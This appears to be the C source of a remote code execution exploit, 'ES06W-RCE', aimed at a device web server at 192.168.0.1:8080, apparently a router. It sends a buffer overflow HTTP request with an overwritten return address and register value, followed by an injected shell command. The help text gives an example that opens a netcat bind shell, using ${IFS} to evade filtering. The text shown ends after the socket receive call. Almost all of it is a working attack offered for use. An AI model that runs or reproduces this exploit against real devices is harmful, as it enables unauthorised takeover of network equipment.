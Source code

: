 ```
void ShowHelp()
{
    printf("[+]Usage: ES06W-RCE.exe [Command]\n");
    printf("[+]Example: ES06W-RCE.exe \"nc${IFS}-lp${IFS}4444${IFS}-e${IFS}/bin/sh\"\n");
}
 
 
int main(int argc, char** argv)
{
    WSADATA stcData = {};
    int int_ret = 0;
    char str_recv[0x1000] = {};
    char str_payload_final[0x1000] = {};
 
    //
    if (argc != 2) {
        ShowHelp();
        return 0;
    }
    //
    int_ret = WSAStartup(MAKEWORD(2, 2), &stcData);
    if (int_ret == SOCKET_ERROR) {
        printf("[-]Init Failed!\n");
        return 0;
    }
    //
 
    char str_payload[] = {
        "GET /aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazaAaBaCaDaEaFaGaHa"
        "IaJaKaLaMaNaOaPaQaRaSaTaUaVaWaXaYaZa0a1a2a3a4a5a6a7a8a9babbbcbdbebfbgbhbib"
        "jbkblbmbnbobpbqbrbsbtbubvbwbxbybzbAbBbCbDbEbFbGbHbIbJbKbLbMbNbObPbQbRbSbTb"
        "UbVbWbXbYbZb0b1b2b3b4b5b6b7b8b9cacbcccd"
        "\xBC\x5F\xCB\x48"                    //Control R7
        "\x94\x02\xD5\x48"                    //Return Addr
        "%s"                                //Command
        " HTTP/1.1\r\n"       
        "Host: 192.168.0.1:8080\r\n"
        "Connection: keep-alive\r\n"
        "Upgrade-Insecure-Requests: 1\r\n"
        "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36\r\n"
        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n"
        "Accept-Encoding: gzip, deflate\r\n"
        "Accept-Language: zh-CN,zh;q=0.9\r\n\r\n\0"
    };
 
    sprintf_s(str_payload_final, 0x1000, str_payload, argv[1]);
 
    //
    SOCKET sock_client = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    sockaddr_in sock_addr;
    sock_addr.sin_family = AF_INET;
    sock_addr.sin_port = htons(8080);
    sock_addr.sin_addr.S_un.S_addr = inet_addr("192.168.0.1");
    //
    int nErrCode = 0;
    int_ret = connect(sock_client, (sockaddr*)&sock_addr, sizeof(sockaddr_in));
    //
    send(sock_client, str_payload_final, strlen(str_payload_final), 0);
    //
    Sleep(20);
    recv(sock_client, str_recv, sizeof(str_recv), 0);
```